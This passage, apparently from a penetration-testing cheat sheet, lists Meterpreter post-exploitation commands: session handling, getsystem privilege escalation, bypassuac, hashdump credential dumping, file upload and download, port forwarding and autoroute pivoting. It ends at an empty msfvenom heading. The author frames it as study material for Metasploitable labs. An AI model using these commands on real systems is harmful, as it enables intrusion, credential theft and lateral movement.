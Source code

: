 ```
### Meterpreter

The below are some handy commands for use with a Meterpreter session. Again, I’d recommend going through a Metasploitable or doing some extra study here.

Set the current process in the background
~~~
background 
~~~
List all active sessions
~~~
msf6 > sessions -l  
~~~
Start a session which is identified by a number
~~~
msf6 > sessions -i 1  
~~~


 getuid  
getsystem (privesc)  
bypassuac  
download x /root/  
upload x C:\\Windows

use post/windows/gather/hashdump

Upgrade to a full shell in meterpreter
```
meterpreter > shell
```

Get the system information via meterpreter
```
meterpreter > sysinfo
```

Get User information via meterpreter
```
meterpreter > getuid
```

Show the network configuration via meterpreter
```
meterpreter > ifconfig
```

Show the route table via meterpreter
~~~
meterpreter > route
~~~

Port foward using meterpreter
```
portfwd add -l 2222 -p 22 -r 172.16.50.222
```

Autoroute
```
run autoroute -s 10.10.10.0/24
```

* * *

## msfvenom

```